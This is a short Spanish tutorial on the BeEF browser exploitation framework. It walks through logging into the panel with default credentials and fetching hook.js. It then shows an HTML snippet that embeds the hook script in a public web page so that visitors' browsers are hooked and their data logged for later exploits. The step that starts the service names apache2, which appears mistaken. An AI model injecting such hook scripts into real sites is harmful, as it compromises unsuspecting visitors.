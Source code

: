 Finalmente, en esta sección se encuentran módulos específicos de integración con MetaSploit Framework, en donde se pueden utilizar las potencialidades de metasploit junto con las herramientas de Beef.

## Basico

### PASO 1

Si usamos kali, BeEF es una herramienta que ya viene por defecto en el sistema, de otro modo, deberan instalarlo con alguna guia oficial de internet.
Asumiento que ya lo tienen instalado, en una terminal haremos lo siguiente:

    $ systemctl start apache2

Luego abriendo el navegador web, ingresamos a la direcion 127.0.0.1:3000/ui/panel . Esta direccion corresponde al localhost y ya que hemos iniciado beef se nos abrira un loguin para la consola de administracion, con username "beef" y password "beef" (sin comillas ambos).

### Paso 2

Tieniendo abierta la interfaz tenemos dos areas, la d ela izquierda nos muestra el estado de los navegadores web que tenemos conectados (o infectados luego de un ataque) y la parte de la derecha nos ira mostrando opciones de acuerdo a lo que queramos hacer con el framework.
Ahora podemos tener acceso a alguno de lo javascript que nos provee Beef, para este caso veremos un ejemplo de script llamado hook.js y para acceder a el solo debemos poner en el navegador 127.0.0.1:3000/hook.js. Con esto tendremos acceso al codigo y podemos copiarlo con algun editor de texto que nos acomode.

Ahora supongamos que tenemos un servidor web al que usualmente la gente se conecta para leer informacion etc. Teniendo este escript en .js podemos hacer que la gente al momento de conectarse a la pagina se ejecute automaticamente injectando codigo malicioso. Veamos un ejemplo de un html sensillo donde se injecta el codigo:

 ```html
 <html>
  <header>
    <title>
      This is title
    </title>
  </header>
  <body>
    Hello world
    <script src="CARPETA/DONDE/ESTA/EL/CODIGO/hook.js" type="text/javascript">
    </script>
  </body>
 </html>
 ```

 tambien en *src* es posible poner una direccion ip o pagina donde este alojado el script.

### Paso 3

Ya teniendo en nuestra pagina puesta el codigo malicioso, cada vez que alguien ingrese a ella beef deberia guardar la direccion ip de la conexion con todos sus datos, de tal forma que pudiesemos descubrir vulnerabilidades para el uso de diferentes exploits.
